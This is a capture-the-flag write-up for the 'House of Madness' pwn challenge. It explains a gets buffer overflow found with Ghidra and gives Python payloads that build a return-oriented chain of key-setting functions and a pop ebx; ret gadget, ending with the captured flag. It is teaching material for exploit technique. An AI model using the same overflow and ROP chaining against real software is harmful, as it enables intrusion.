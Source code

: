 # House of Madness

* **Category:** PWN
* **Points:** 897

## Challenge

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> Note: ASLR is disabled for this challenge
> [Download](./challenge?raw=true)

## Solution

To preface, this solve was after the challenge environment was fixed with ASLR being disabled. A solve while ASLR was enabled was possible.

While messing around with the binary at first we are met with a direction to enter `Stephen` in room 4.

![](./img/programRun.png)

Upon further analysis with Ghidra, we see that in room 4, we unlock access to a hidden room by entering `Stephen` that includes an unsanitized gets that would allow an overflow of `local_1c`

![](./img/room4.png)

Ok, cool! Overwrite buffer, overwrite eip, call get_flag(), capture the...

![](./img/tryAgain.png)

\>:(

Alright step it back. Taking a look at get_flag() we see checks for 4 keys that are initialized by 4 other functions: `get_key1`, `get_key2`,`AAsDrwEk`,`set_key4`
While reversing the functions, it is important to note that `get_key2` will not initialize `key 2` if `key 1` is already initialized. In addition we see that `get_key1` takes an argument and compares it to 0xfeedc0de.
The obscure function `AAsDrwEk` sets `key 3` without any preconditions. Finally, `set_key4` initializes `key4` once the previous keys have been set. 
Ok, cool. Game plan is:

![](./img/gameplan.png)

```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)

padding = "A"*28 #Overflow buffer and overwrite saved eip
payload = padding + p32(get_key3) + p32(get_key2) + p32(get_key1) + p32(get_key4) + arg + p32(get_flag)   
```
Yay now I can finally get some sle-

![](./img/take1.png)

\>:(
Some quick debugging shows that when get_key4 returns, esp is pointing to get_key1's argument and points eip to 0xfeedc0de.

![](./img/feedcode.png)

![](./img/gdb.png)

To understand what needs to be accomplished, it is pivotal to understand what the ret instruction does. ret will take the value at esp's address and pop it into eip and then increment esp.
Therefore, in order to have `get_key1` to ret into `get_flag` which is at `esp + 0x4` on the stack, I need to somehow increment esp. Something to simply move `get_flag` to the top of the stack...
Oh yeah! A ROP gadget to pop off `0xfeedcode` off the stack and then ret into `get_flag`!
Using ```ROPgadget --binary ./houseof | grep pop```, we find a single `pop ebx; ret` instruction which does exactly that!
Now just add that to the exploit and claim the flag to satisfy your lack of sleep.
```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)
pop_ret = p32(0x5655601e)

payload= "B"*28 + p32(get_key3) + p32(get_key2) + p32(get_key1) + pop_ret + arg + p32(get_key4) + p32(get_flag)
```
![](./img/ineedsleep.png)

```
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```
